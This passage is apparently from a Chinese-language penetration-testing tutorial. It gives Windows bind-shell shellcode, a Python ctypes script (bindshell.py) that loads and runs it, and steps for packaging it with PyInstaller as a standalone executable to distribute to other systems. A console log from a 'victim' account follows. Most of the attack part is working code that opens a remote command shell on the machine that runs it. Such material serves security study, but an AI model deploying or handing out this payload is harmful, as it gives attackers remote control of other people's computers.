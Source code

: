 ```
    "\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75"
    "\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"; 
```

接下来，我们写一个脚本执行这个 C 风格 shellcode。Python 允许导入外来函数的库。我们可以导入`ctypes` 库，它允许我们和 C 语言的数据类型交互。定义一个变量存储我们的 shellcode 之后，我们简单的把它作为一个函数并执行他，作为未来的参考，我们保存这个文件为`bindshell.py`。

```
from ctypes import *
shellcode =
    ("\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
    "\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
    "\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2"
    "\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85"
    "\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3"
    "\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d"
    "\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58"
    "\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b"
    "\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff"
    "\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x33\x32\x00\x00\x68"
    "\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01"
    "\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x50\x50"
    "\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x89\xc7"
    "\x31\xdb\x53\x68\x02\x00\x05\x39\x89\xe6\x6a\x10\x56\x57\x68"
    "\xc2\xdb\x37\x67\xff\xd5\x53\x57\x68\xb7\xe9\x38\xff\xff\xd5"
    "\x53\x53\x57\x68\x74\xec\x3b\xe1\xff\xd5\x57\x89\xc7\x68\x75"
    "\x6e\x4d\x61\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57"
    "\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01"
    "\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e"
    "\x56\x56\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56"
    "\x46\xff\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56"
    "\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75"
    "\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5");
memorywithshell = create_string_buffer(shellcode, len(shellcode))
shell = cast(memorywithshell, CFUNCTYPE(c_void_p))
shell() 
```

而此时的脚本将会在装有 Python 解释器的 Windows 上执行，让我们通过 Pyinstaller 编译软件提高它。(可以从 [`www.pyinstaller.org/`](http://www.pyinstaller.org/) 获得)。Pyinstaller 将 Python 脚本编译为独立的可执行程序，可以分发给没有安装 Python 解释器的系统使用。在编译脚本之前，运行`Configure.py` 脚本绑定 Pyinstaller 很重要。

```
Microsoft Windows [Version 6.0.6000]
Copyright (c) 2006 Microsoft Corporation. All rights reserved.
C:\Users\victim>cd pyinstaller-1.5.1
C:\Users\victim\pyinstaller-1.5.1>python.exe Configure.py
I: read old config from config.dat
I: computing EXE_dependencies
I: Finding TCL/TK...
<..SNIPPED..>
I: testing for UPX...
I: ...UPX unavailable
I: computing PYZ dependencies...
I: done generating config.dat 
```
